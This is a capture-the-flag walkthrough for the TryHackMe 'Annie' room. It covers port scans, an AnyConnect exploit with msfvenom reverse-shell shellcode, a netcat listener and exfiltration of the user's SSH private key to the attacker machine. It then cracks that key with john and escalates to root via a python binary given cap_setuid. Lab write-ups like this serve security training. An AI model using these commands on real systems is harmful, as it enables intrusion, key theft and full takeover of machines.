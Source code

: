 # Annie

**Room Link:** [https://tryhackme.com/room/annie](https://tryhackme.com/room/annie)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (447).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (448).png" alt=""><figcaption></figcaption></figure>



### TCP/7070 - AnyConnect

**Exploit:** [https://www.exploit-db.com/raw/49613](https://www.exploit-db.com/raw/49613)



Took for the code above and just had to change the shellcode and ip variable.

**Kali**

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

**Kali**

```
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/image (449).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (450).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cat /home/annie/.ssh/id_rsa
nc -w 3 $KALI 1234 < /home/annie/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (451).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -l -p 1234 > id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (452).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa annie@$VICTIM
```

## Privilege Escalation

**Victim**

```
find / -perm -u=s -type f 2> /dev/null
```

<figure><img src="../../.gitbook/assets/image (453).png" alt=""><figcaption></figcaption></figure>



**Victim**

<pre><code>cp /usr/bin/python3 /home/annie/python3
setcap cap_setuid+ep /home/annie/python3
<strong>ls -al /home/annie/python3
</strong>/home/annie/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
</code></pre>

<figure><img src="../../.gitbook/assets/image (454).png" alt=""><figcaption></figcaption></figure>











